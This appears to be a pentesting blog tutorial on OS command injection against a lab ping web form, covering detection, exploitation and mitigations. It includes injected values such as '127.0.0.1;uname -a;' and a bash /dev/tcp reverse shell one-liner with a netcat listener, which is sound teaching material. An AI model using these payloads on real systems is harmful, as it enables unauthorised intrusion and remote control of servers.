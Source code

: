 ```yaml
---
title: Command Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Command Injection]
tags: [webapp, pentesting, Owasp, cmdi, os, command injection]     # TAG names should always be lowercase
---
```


# Command Injection

***Command Injection*** is a cyber attack that involves executing arbitrary commands on a host operating system (OS). Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application.

# Detecting Command Injection

In the below image, we can see that the web interface takes in ip address, pings the ip address and then returns the output to the user. By examining the outputs, we will discover that the backend is using `ping` command to ping a given ip address. 

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab2.png)

We can attempt to predict the os command that is executed, which may be `ping -c 3 [ip]`. By supplying 127.0.0.1, the command will be something like this `ping -c 3 127.0.0.1`, we can get command execution If the backend passess the supplied input to a system shell without sanitizing it. 

## with `;`

We can determine whether or not our supplied input is directly executed in a system shell using `;`. By suppliying `127.0.0.1;`, the command will be `ping -c 3 127.0.0.1;`, we will get thesame output if our supplied input is executed directly in a system shell,this is because, `;` will not break the command as it is also used to end linux command or to execute nultiple command in one line. 

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabenum1.png)

The above image shows the output of the executed command, this means our supplied input is directly executed in a system shell and it did'nt break the command as we predicted.

## with `)`

We can determine whether or not our supplied input is directly executed in a system shell using `)`. By suppliying `127.0.0.1)`, the command will be `ping -c 3 127.0.0.1)`, we will not get any output if our supplied input is executed directly in a system shell,this is because, `)` will break the linux command completely.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabenum3.png)

The above image didn't show the output of the executed command, this means our supplied input is directly executed in a system shell and it broke the command as we predicted.

# Exploitation

## Executing `uname -a`

Given that our supplied input is directly supplied to a system shell without sanitization, we can execute our own command by taking advantage of `;`, as it is used to execute multiple system command. By suppliying `127.0.0.1;uname -a;`, our command will be something like this `ping -c 3 127.0.0.1;uname -a;`. This will make the backend server to execute two different commands, one is `ping -c 3 127.0.0.1` and the other is `uname -a`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab4.png)

From the above image we get the output of the `uname -a` command, which is highlighted in the image.

## Getting Reverse Shell

To get a reverse shell, we used the reverse shell payload below and setup our listener using netcat i.e `nc -nlvp [port]`.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1'
```
Then supplied the following `127.0.0.1;bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1;` to the vulnerable endpoint.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab5.png)

*getting reverse shell*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabravkali.png)

# Mitigations

- Avoid calling OS commands directly, Instead Use Built-in library functions.
- Escape values added to OS commands specific to each OS
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.

# References

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)

